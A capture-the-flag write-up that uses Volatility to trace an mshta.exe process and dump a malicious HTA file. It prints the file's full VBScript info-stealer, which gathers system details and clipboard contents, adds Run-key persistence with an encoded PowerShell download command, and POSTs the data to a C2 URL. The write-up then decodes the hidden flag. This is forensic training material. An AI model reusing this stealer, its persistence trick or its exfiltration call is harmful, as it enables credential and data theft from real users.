 # Stealth Stealer
<p align="center">
    <img src="img/stealth_stealer_chall.png" alt="Challenge" width="500"/>
</p>

This challenge uses the same dump as *Phantom Phish*, and wants us to investigate some malware likely arising from the phishing attempt from that challenge.

The notepad process opened the pdf file around `2024-10-17 13:08:33.000000`, so we could be looking for a malware-process close to this timestamp. If we look through the process-list again, this `mshta.exe` process stands out as it reaching out for a `.hta` file from a remote server. `mshta` is a [LOLBIN](https://lolbas-project.github.io/lolbas/Binaries/Mshta/) which can be used to download and execute html applications.
```console
PID     PPID    ImageFileName   CreateTime      Audit   Cmd
5696       10348   mshta.exe       2024-10-17 13:07:14.000000      \Device\HarddiskVolume3\Windows\System32\mshta.exe      "C:\Windows\system32\mshta.exe" http://192.168.88.130/heist.hta
```

Using `windows.filescan.FileScan` and `windows.dumpfiles.DumpFiles` we can dump this `heist.hta` file from memory. If this had not worked we could also have retrieved the file by dumping the memory of the `mshta.exe` process, and then carve the hta file out of its memory, but this is a little more tedious.
```console
$ vol3 -f dump.dmp windows.filescan.FileScan | grep "\.hta"

Offset  Name    Size
0xc50ce994a580  \Users\Benjamin\AppData\Local\Microsoft\Windows\INetCache\IE\0RH8WS85\heist[1].hta      216

$ vol3 -f dump.dmp windows.dumpfiles.DumpFiles --virtaddr 0xc50ce994a580
```

With `heist.hta` dumped, we only need to reverse it to get the flag.
```vb
<script language="VBScript">
Dim a1, a2, a3, a4, a5, a6, d2
Set a1 = CreateObject("WScript.Shell")
a2 = a1.RegRead(utr("484b4c4d5c534f4654574152455c4d6963726f736f66745c57696e646f7773204e545c43757272656e7456657273696f6e5c50726f647563744e616d65"))
a3 = a1.ExpandEnvironmentStrings(utr("25434f4d50555445524e414d4525"))
a4 = a1.ExpandEnvironmentStrings(utr("25555345524e414d4525"))
a5 = a1.ExpandEnvironmentStrings(utr("2550524f434553534f525f41524348495445435455524525"))
a6 = dsf()
Dim b1, b2, b3
b1 = utr("535556594943684f5a58637454324a715a574e304945356c644335585a574a4462476c6c626e51704c6b5276643235736232466b553352796157356e4b434a6f64485277637a6f764c32686c62476c3463475633644756796332566a636d5630597a49755a5842304c32746c5a58424259324e6c63334e4a5a6b4e76626d356c593352706232354d62334e304c6e427a4d534970")
b2 = utr("484b43555c536f6674776172655c4d6963726f736f66745c57696e646f77735c43757272656e7456657273696f6e5c52756e5c")
b3 = utr("4d6963726f736f6674204564676520496e7465677269747920436865636b6572")
a1.RegWrite b2 & b3, b1, "REG_SZ"
iolo()
Dim dtg
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = hbr(dtg, &H1337)
dfg a2, a3, a4, a5, a6, d2
Function dsf()
        ' "hopefully I find some wallet keys"
Dim clipboard, ert
Set clipboard = CreateObject("htmlfile")
ert = clipboard.ParentWindow.ClipboardData.GetData(utr("54657874"))
If Len(data) > 0 Then
dsf = data
Else
dsf = utr("4e6f20636c6970626f617264206461746120666f756e64")
End If
End Function
Sub olo(min)
Dim ts
Dim tss
ts = Timer()
tss = 0
Do While tss < (min * 60)
tss = Timer() - ts
If tss < 0 Then tss = tss + 86400
CreateObject("WScript.Shell").AppActivate("shh")
Loop
End Sub
Sub iolo()
olo 5
End Sub
Sub dfg(os, computer, user, arch, clipboard, d2)
Dim xmlhttp, iop, data
data = "os=" & os & "&computer=" & computer & "&user=" & user & "&arch=" & arch & "&clipboard=" & clipboard & "&misc=" & d2
iop = utr("68747470733a2f2f68656c697870657774657273656372657463322e6570742f737465616c65722e706870")
Set xmlhttp = CreateObject(utr("4D53584D4C322E536572766572584D4C48545450"))
xmlhttp.open "POST", iop, False
xmlhttp.setRequestHeader "Content-Type", "application/x-www-form-iopencoded"
xmlhttp.send data
End Sub
Function hbr(juo, xorKey)
Dim i, yka, yty, keyByte
yka = ""
For i = 1 To Len(juo) Step 2
yty = CLng("&H" & Mid(juo, i, 2))
If (i Mod 4) = 1 Then
keyByte = (&H13)
Else
keyByte = (&H37)
End If
yty = yty Xor keyByte
yka = yka & Chr(yty)
Next
hbr = yka
End Function
Function utr(jui)
Dim i, fgg
fgg = ""
For i = 1 To Len(jui) Step 2
fgg = fgg & Chr(CLng("&H" & Mid(jui, i, 2)))
Next
utr = fgg
End Function
</script>
```


The `utr` function converts the hex-string argument from hex to string. The `hbr` function does the same conversion from hex to string, but also xor the bytes with the key `1337`. `hbr` is only used at the following location:
```vb
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = hbr(dtg, &H1337)
```


Which results in the flag `EPT{X0rd_crypt0_c01n_w4ll3t_h315t!}` when decrypted! The actual functionality of this script is to collect computer information from the registry and environment variables, and send it to `https://helixpewtersecretc2.ept/stealer.php`: